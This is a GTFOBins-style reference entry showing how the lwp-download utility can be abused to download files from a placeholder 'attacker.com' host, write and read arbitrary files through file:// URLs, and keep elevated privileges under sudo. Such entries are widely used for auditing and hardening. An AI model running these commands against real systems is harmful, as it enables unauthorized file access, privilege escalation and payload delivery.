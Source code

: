 # GTFOBin: lwp-download

Fetch a remote file via HTTP GET request.

## File download

It can download remote files.

```
URL=http://attacker.com/file_to_get
LFILE=file_to_save
lwp-download $URL $LFILE
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_write
TF=$(mktemp)
echo DATA >$TF
lwp-download file://$TF $LFILE
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The file path must be absolute.

```
LFILE=file_to_read
TF=$(mktemp)
lwp-download "file://$LFILE" $TF
cat $TF
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
URL=http://attacker.com/file_to_get
LFILE=file_to_save
sudo lwp-download $URL $LFILE
```